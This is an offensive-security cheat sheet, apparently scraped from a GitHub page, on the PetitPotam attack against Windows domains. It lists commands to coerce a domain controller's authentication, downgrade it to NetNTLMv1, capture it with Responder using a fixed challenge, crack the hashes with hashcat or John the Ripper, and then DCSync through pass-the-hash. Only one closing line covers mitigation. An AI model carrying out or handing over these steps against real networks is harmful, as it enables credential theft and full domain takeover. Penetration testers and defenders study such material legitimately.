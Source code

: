 # Petit Potam

## Github repo: https://github.com/topotam/PetitPotam

###  Coerce a callback using PetitPotam or SpoolSample on an affected machine and downgrade the authentication to NetNTLMv1 Challenge/Response authentication. This uses the outdated encryption method DES to protect the NT/LM Hashes.

## Requirements:

### LmCompatibilityLevel = 0x1: Send LM & NTLM

 - reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v lmcompatibilitylevel

## Exploitation

#### 1) Capturing using Responder: Edit the /etc/responder/Responder.conf file to include the magical 1122334455667788 challenge

#### 2) Fire Responder

 - sudo responder -I eth0 --lm

### If --disable-ess is set, extended session security will be disabled for NTLMv1 authentication

#### 3) Force a callback

 - PetitPotam.exe Responder-IP DC-IP

 - PetitPotam.py -u Username -p Password -d Domain -dc-ip DC-IP Responder-IP DC-IP

#### 4) Crack the captured hashes with hashcat or John The Ripper

 - hashcat -m 5500 -a 3 hash.txt

 - john --format=netntlm hash.txt

#### 5) Now you can DCSync using the Pass-The-Hash with the DC machine account

## WARNING!: : NTLMv1 with SSP(Security Support Provider) changes the server challenge and is not quite ideal for the attack, but it can be used.

# MITIGATIONS

### Set the Lan Manager authentication level to Send NTLMv2 responses only. Refuse LM & NTLM
